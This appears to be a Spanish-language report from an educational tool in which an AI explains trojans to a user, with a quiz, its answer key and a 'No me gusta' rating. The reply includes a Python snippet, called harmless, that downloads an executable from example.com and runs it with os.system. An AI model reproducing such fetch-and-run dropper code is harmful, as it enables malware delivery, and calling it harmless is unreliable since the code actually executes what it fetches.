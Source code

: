 
    # 🚀 Reporte de Generador de Escenarios de Aprendizaje

    **Nombre Usuario**
    usuario

    **Consulta:**  
    que es un troyano

    **Respuesta IA:**  
    ¡Hola! Soy un experto en hackatones.

### Información básica sobre los Troyanos
Un troyano es un tipo de malware que se presenta como un software legítimo para engañar a los usuarios y hacer que lo instalen. Una vez instalado, puede permitir que un atacante acceda a la computadora de la víctima, robe información o realice otras acciones maliciosas.

### Ejemplo de cómo te pueden infectar
Una forma común de infección es a través de la descarga de archivos infectados, como un supuesto activador gratuito para software. Por ejemplo, podrías encontrar un archivo llamado "officeActivator.exe" en una web de descargas que, al ejecutarse, descarga y ejecuta un archivo malicioso sin que lo notes.

### Código de ejemplo de un ataque
Aquí tienes un código inofensivo en Python que simula el comportamiento de un troyano al descargar un archivo:


python
import os
import requests

# URL del archivo malicioso (simulado)
url = "http://example.com/malicious_file.exe"

# Descarga el archivo
response = requests.get(url)

# Guarda el archivo en el sistema
with open("malicious_file.exe", "wb") as file:
    file.write(response.content)

# Ejecuta el archivo (simulado)
os.system("malicious_file.exe")



Ahora, por favor, completa la siguiente actividad:

### Actividad
Nombre: ____
Nota: ____

1. Explica qué es un troyano y cómo se diferencia de otros tipos de malware.
2. Describe un escenario en el que un usuario podría ser víctima de un troyano.
3. ¿Qué medidas de seguridad se pueden implementar para protegerse contra troyanos?

#### Respuesta de la actividad
1. Un troyano es un tipo de malware que se disfraza de software legítimo, a diferencia de virus o gusanos que se replican por sí mismos.
2. Un usuario podría ser víctima al descargar un archivo de un sitio web no confiable que parece ser un software útil.
3. Las medidas de seguridad incluyen el uso de software antivirus, mantener el sistema operativo actualizado y evitar descargar archivos de fuentes no confiables.

    **Reporte del Usuario:**  
    No me gusta
        